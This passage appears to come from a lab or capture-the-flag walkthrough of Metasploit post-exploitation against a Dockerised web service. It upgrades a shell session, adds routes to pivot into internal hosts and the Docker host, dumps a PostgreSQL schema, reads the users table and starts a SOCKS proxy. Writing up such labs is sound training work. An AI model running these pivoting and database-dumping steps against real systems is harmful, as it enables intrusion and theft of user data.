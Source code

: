 ```
sessions -u 1
sessions -i 2
```

![image](https://user-images.githubusercontent.com/90561566/206838093-8285c2ce-5860-45f9-9d5e-2c69a4c5bc90.png)

explore the application

![image](https://user-images.githubusercontent.com/90561566/206838159-9969a7e2-cdce-4ce3-a8dc-0d9f3081e70d.png)

![image](https://user-images.githubusercontent.com/90561566/206838186-643b9f42-691c-4d12-bfd1-5d21bff1b288.png)

resolve hostname to ip

```
resolve webservice_database
```

background session and config route table for pivoting

```
route add 172.28.101.51/32 2
```

![image](https://user-images.githubusercontent.com/90561566/206838345-54f3e8f8-8a20-4a40-b71b-2ac102b34280.png)

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. 

By default, Docker chooses a hard-coded IP to represent the host machine.

```
route add 172.17.0.1/32 2
```

dump the database schema

```
use auxiliary/scanner/postgres/postgres_schemadump
set rhosts 172.28.101.51
run
```

![image](https://user-images.githubusercontent.com/90561566/206839175-3d006527-4439-4a7f-8e43-9960f6d6fa9e.png)

```
use auxiliary/admin/postgres/postgres_sql
set rhosts 172.28.101.51
set database postgres
set sql 'select * from users'
run
```

![image](https://user-images.githubusercontent.com/90561566/206839428-c7603330-bbd1-4d31-82b7-c2bc8c8a269c.png)

create socks proxy

```
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 9050
set version 4a
run
```
